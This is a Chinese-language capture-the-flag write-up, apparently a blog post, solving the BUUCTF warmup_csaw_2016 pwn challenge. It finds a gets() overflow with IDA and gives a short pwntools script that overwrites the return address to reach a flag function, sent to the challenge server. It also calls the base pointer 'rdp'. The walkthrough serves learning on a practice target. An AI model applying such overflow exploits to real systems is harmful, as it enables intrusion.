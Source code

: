 # BUUCTF-warmup_csaw_2016

## 1.checksec/file



<img src="https://i-blog.csdnimg.cn/blog_migrate/e19150363e53980ff821b04e430079fd.png" alt="" style="max-height:368px; box-sizing:content-box;" />




64位的linux文件

## 2.ida

找到主函数



<img src="https://i-blog.csdnimg.cn/blog_migrate/e14517bec1cf0e075b57d7b49695743a.png" alt="" style="max-height:294px; box-sizing:content-box;" />


发现致命函数 get() 因为get可以无限输入

看看有没有什么函数我们可以返回的

双击进入sub_40060d



<img src="https://i-blog.csdnimg.cn/blog_migrate/e5f7dde73ab9623c781c074cd18bf9e1.png" alt="" style="max-height:135px; box-sizing:content-box;" />


直接发现这个函数是取flag的 所以我们开始看这个函数的地址



<img src="https://i-blog.csdnimg.cn/blog_migrate/5e8449f6c56528682fdb3ce1092df03d.png" alt="" style="max-height:156px; box-sizing:content-box;" />


所以函数地址是 0x40060d

我们看看get什么时候开始的



<img src="https://i-blog.csdnimg.cn/blog_migrate/301864a7cfbfcdf45c0dabe7316b0577.png" alt="" style="max-height:185px; box-sizing:content-box;" />


发现get是40h开始 然后因为64位有8位的rdp 所以需要40h+8

40h=64    --->  64+8

或者0x40+0x08=0x48

## 3.exp

```cobol
from pwn import *
p=remote('node4.buuoj.cn',27652)
payload=b'A'*64+b'B'*8+p64(0x40060d)
p.sendline(payload)
p.interactive()
 
 
 
 
 
from pwn import *
p=remote('node4.buuoj.cn',27652)
payload=b'A'*(0x40+0x08)+p64(0x40060d)
p.sendline(payload)
p.interactive()
 
```

两个一样的



<img src="https://i-blog.csdnimg.cn/blog_migrate/797d0506aa6a3152d046473e2b2947e8.png" alt="" style="max-height:446px; box-sizing:content-box;" />